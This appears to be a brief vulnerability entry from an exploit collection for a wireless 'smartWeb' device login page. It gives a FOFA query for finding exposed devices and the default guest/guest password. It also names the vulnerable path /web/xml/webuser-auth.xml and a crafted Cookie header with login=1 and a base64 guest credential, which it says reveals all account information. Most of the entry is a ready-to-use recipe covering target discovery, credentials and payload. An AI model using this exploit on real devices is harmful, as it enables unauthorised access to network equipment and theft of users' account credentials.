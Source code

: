 <languages  />

FOFA
----

    title="无线smartWeb--登录页面"

Default guest password
----------------------

    guest/guest

Vulnerability location
----------------------

    http://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml

Exploit
-------

Cookie add the following

    Cookie: login=1; oid=1.3.6.1.4.1.4881.1.1.10.1.3; type=WS5302; auth=Z3Vlc3Q6Z3Vlc3Q%3D; user=guest

Can get all account information

Reference
---------

<https://mp.weixin.qq.com/s/EICYTqRWDRB8OfXKHxCBfQ>